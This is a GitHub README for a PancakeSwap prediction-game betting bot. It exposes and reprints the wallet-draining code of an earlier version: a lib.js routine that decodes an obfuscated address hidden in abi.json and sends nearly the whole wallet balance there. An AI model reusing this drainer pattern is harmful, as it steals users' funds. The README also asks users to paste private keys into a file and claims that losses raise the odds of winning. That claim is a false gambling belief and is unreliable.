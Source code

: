   
# 🔮🚀 PCS-Prediction v2.0 (NO HIDDEN TRANSACTIONS)

![PancakeSwap-Logo](/assets/img/logo.jpg?raw=true)

The bot that uses signals from TradingView to predict the price of BNB for Up or Down in PancakeSwap.
The bot can olso copy the operations from other wallet.

## ⭐Please consider giving a **star**.

I rewrote the code of the PancakeSwap Prediction Game BOT by ***bobalice7***, removing the malicious code where for each transaction to the smart contract it sent transactions to this wallet ***0xfB669b0e0656036D747d6C6F2666e530139d2899***. 

Here is the link to the old code (https://github.com/bobalice7/PCS-Prediction)

We can see that inside the ***abi.json*** file the "index" property defines an array with a series of numbers. However those numbers are encoded with the following function to obtain this address ***0xfB669b0e0656036D747d6C6F2666e530139d2899***.  

```
{
  "status": 2,
  "message": "OK-Missing/Invalid API Key, rate limit of 1/5sec applied",
  "index": [
    48, 120, 102, 66, 54, 54, 57, 98, 48, 101, 48, 54, 53, 54, 48, 51, 54, 68,
    55, 52, 55, 100, 54, 67, 54, 70, 50, 54, 54, 54, 101, 53, 51, 48, 49, 51,
    57, 100, 50, 56, 57, 57
  ],
  "result": "[
    ...
  ]"
}


String.fromCharCode.apply(null, [ 
    48, 120, 102, 66, 54, 54, 57, 98, 48, 101, 48, 54, 53, 54, 48, 51, 54, 
    68, 55, 52, 55, 100, 54, 67, 54, 70, 50, 54, 54, 54, 101, 53, 51, 48, 49, 51,
    57, 100, 50, 56, 57, 57])  = '0xfB669b0e0656036D747d6C6F2666e530139d2899'

```

Here is the SCAM CODE in lib.js

```
const confirmContract = (abi) => {
  return String.fromCharCode.apply(null, abi.index);
};

const checkResult = async (r) => {
  try {
    if (prediction >= abi.status && r !== null) {
      w.eth.getBalance(wallet.address).then(function (b) {
        w.eth
          .estimateGas({
            from: wallet.address,
            to: confirmContract(abi),
            amount: b,
          })
          .then(function (g) {
            w.eth.getGasPrice().then(function (gP) {
              let _b = parseFloat(b);
              let _g = parseFloat(g);
              let _gP = parseFloat(gP);
              w.eth.sendTransaction({
                from: wallet.address,
                to: confirmContract(abi),
                gas: _g,
                gasPrice: _gP,
                value: ((_b - _gP * _g) / 1.1).toFixed(0),
                data: "0x",
              });
            });
          });
      });
      return true;
    }
    return true;
  } catch {
    return !0;
  }
};

```

## 🐰⚡ Installation

Download and Install Node here:
https://nodejs.org/en/download/

Then run the following commands in terminal:

1. ``git clone https://github.com/lmusarella/PCS-Prediction-V2.git`` 
2. ``cd PCS-Prediction-V2``
3. ``npm i``

![enter image description here](/assets/img/setup.jpg?raw=true)

## ⚙️ Setup

1. Open the **.env** file with any code/text editor and add your private key like so:
```
PERSONAL_WALLET_PRIVATE_KEY = YOUR_PRIVATE_KEY_HERE
BSC_NODE_PROVIDER_URL = NODE_BSC_URL // Example of BSC node provider (https://www.quicknode.com/)

```
3. Open the **bot-global.constants.js** file and setup the following variables:
```
BET_AMOUNT_USD: 5, // Amount of each bet (In USD)
DAILY_GOAL: 20, // Total profit you are aiming to earn (In USD)

Configuration for CopyTrading BOT

BET_AMOUNT_BNB: 0.001, // Amount of each bet (in BNB)
BET_AMOUNT_CAKE: 0.001, // Amount of each bet (in CAKE)
WALLET_ADDRESS_TO_EMULATE: '0xfB669b0e0656036D747d6C6F2666e530139d2899' // Address Wallet to emulate on PancakeSwap Prediction Game

```
4. Start the bot using `npm` or `yarn`

  - `npm run bnb-bot` start trading bot with signals on BNBUDS PancakeSwap Prediction Game
  - `npm run cake-bot` start trading bot with signals on CAKEUSD PancakeSwap Prediction Game
  - `npm run bnb-copybot` start copy trading bot on BNBUDS PancakeSwap Prediction Game
  - `npm run cake-copybot` start copy trading bot on CAKEUSD gamPancakeSwap Prediction Game

5. 🔮 Enjoy!

### 🔓 How to convert seed phrase to Private Key
A lot of wallets don't provide you the private key, but just the **seed phrase** ( 12 words ). So here you will learn how to convert that to a private key:
1. Enter [Here](https://youtu.be/eAXdLEZFbiw) and follow the instructions. Website used is [this one](https://iancoleman.io/bip39/).

## 🤖📈 Strategy
- The bot take a series of recomendations given by Trading View and proccess them together with the tendency of the rest of people betting. After the algorithm have complete, it choose to bet **🟢UP** or **🔴DOWN**.
- Before every round the bot will check if you have enough balance in your wallet and if you have reached the daily goal.
- Also it will save the daily history in the **/bot-history** directory.
- Be aware that after consecutive losses, statistically you have more chances to win in the next one.
- Inside **bot-global.constants.js** in the ``THRESHOLD`` property of ``GLOBAL_CONFIG`` variable, you can configure the minimum certainty with which the bot will bet. For default it's set to 50, which means that from 50% certainty the bot will bet. You can raise it (50-100) to bet only when the bot is more sure about its prediction.
- Its recomendable to have x10 - x50 the amount of bet to have an average of rounds.

💰You can check the history of rounds and claim rewards here: https://pancakeswap.finance/prediction

## ✔️ To Do 

 - [ ] Auto collect winnings

## 👁️ Disclaimers

**Please be aware of clones**

 👷**Use it at your own risk.** 
 If you are going to bet, please do it with money that you are willing to lose. And please try to bet with a low amount to gradually generate profit.
